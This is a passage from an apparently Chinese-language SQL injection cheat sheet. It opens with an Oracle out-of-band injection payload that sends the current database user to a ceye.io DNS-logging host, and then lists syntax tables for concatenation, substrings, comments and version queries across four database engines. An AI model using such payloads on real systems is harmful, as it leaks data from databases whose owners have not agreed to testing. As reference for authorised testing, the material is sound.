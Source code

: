````
' and (select SYS.DBMS_LDAP.INIT((select user from dual)||'.xxx.ceye.io') from dual)is not null --
````

## 0x07 不同数据库备忘单
### 1.字符串连接
将多个字符串拼接在一起，返回一个新的字符串。
|||
|-----------|--------------|
|Oracle     |'foo'\|\|'bar'|
|Microsoft	|'foo'+'bar'|
|PostgreSQL	|'foo'||'bar'|
|MySQL      |'foo' 'bar' \[注意中间有空格\] <br />CONCAT('foo','bar')|

### 2.字符串切割
从具有指定长度的偏移量中提取字符串的一部分。请注意，偏移索引是基于1的。以下每个表达式将返回字符串ba。
|||
| ---------- | ------------------------- |
| Oracle     | SUBSTR('foobar', 4, 2)    |
| Microsoft  | SUBSTRING('foobar', 4, 2) |
| PostgreSQL | SUBSTRING('foobar', 4, 2) |
| MySQL      | SUBSTRING('foobar', 4, 2) <br />mid(column_name,start\[,length\]) \[截取长度不填为剩余所有\]|

### 3.注释
使用注释来截断查询并删除原始输入之后的查询部分。
|||
| ---------- | ----------------------|
| Oracle     | --comment             |
| Microsoft  | --comment /\*comment*/ |
| PostgreSQL | --comment /\*comment*/ |
| MySQL      | #comment <br />-- comment \[注意双破折号后的空格\] <br />/\*comment\*/ |

### 4.数据库版本
查询数据库确定其类型和版本。
|||
|-|-|
| Oracle     | SELECT banner FROM v\$version <br /> SELECT version FROM v\$instance |
| Microsoft  | SELECT @@version |
| PostgreSQL | SELECT version() |
| MySQL      | SELECT @@version |

